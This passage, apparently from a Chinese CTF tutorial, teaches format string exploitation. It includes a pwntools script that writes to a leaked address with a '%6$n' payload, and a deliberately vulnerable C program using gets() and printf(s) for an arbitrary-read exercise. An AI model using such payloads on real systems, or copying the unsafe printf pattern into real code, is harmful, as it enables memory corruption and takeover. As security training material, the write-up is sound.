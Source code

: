     c_address = 0xffffd58c
    padding   = b'111111111111' #这里为什么是12个1，因为c_address占4字节
    Payload   = p32(c_address)+b''+b'%6$n' #12+4=16
    

4.  编写EXP，运行。

实际情况中，c\_address并不固定，所以这题目提前用printf输出了变量C的地址。

    #导入pwn模块
    from pwn import *
    #设置运行环境
    context(arch='i386',os='linux')
    context.terminal = ['tmux','splitw','-h']
    #封装进程，ELF解析
    p        = process("./overflow")
    overflow = ELF('./overflow')
    #接收消息，直到'\n'
    c_address = int(p.recvuntil('\n',drop=True),16)
    print("变量C地址:{0}".format(hex(c_address)))
    #填充12字节+地址(4字节)=16
    padding = b'111111111111'
    #构造Payload，发送
    Payload = p32(c_address) + padding + b'%6$n'
    print("Payload:{0}".format(Payload))
    print(p.sendline(Payload))
    
    #回显
    print(p.recv())
    

![image-20220622212758242](https://img2022.cnblogs.com/blog/2080041/202206/2080041-20220622212800672-40909260.png)

### 任意地址内存泄漏(任意读)

在网上看了些文章写的都很绕来绕去，任意地址内存泄漏的核心原理就是用`%s`去读你输入的`十六进制格式(地址)`的内存。

`ps:这其实并不算任意地址内存泄漏，测试发现如果内存中一开始就是0，那直接就截断了。`

漏洞主要利用的步骤:

*   %n$s
*   /x01/x02/x03/x04 (你需要读内存的地址)
*   找出这个(你需要读内存的地址)在第几个参数，这样好用%n$s

下面还是用自己写的一个例子，来实践下。

（要求用pwntools打印出flag）

    #include <stdio.h>
    char *flag="flag{Pwn_Caiji_Xiao_fen_dui}\n";
    
    int main() {
      char s[100];
      int a = 1, b = 0x22222222, c = -1;
      gets(s);
      printf("%08x.%08x.%08x.%s\n", a, b, c, s);
      printf(s);
      return 0;
    }
    